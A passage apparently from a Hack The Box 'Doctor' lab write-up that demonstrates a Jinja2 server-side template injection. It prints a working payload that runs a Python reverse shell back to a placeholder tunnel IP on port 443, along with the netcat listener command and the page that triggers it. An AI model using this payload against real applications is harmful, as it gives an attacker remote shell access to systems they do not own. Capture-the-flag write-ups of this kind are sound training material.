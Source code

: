 And so we will create a new message with the following as the title.

>**NOTE:** Do not forget to change `<YOUR TUNNEL IP>` to your machine IP.

{% raw %}
  ``` python
  {% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<YOUR TUNNEL IP>\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
  ```
{% endraw %}

![](/assets/images/htb-doctor/17_doctor_ssti_jinja2_shell.png)

Now if we start a netcat listener on port 443..

``` bash
nc -lnvp 443
```

And then we navigate to the `/archives` page, we should receive a reverse shell request.
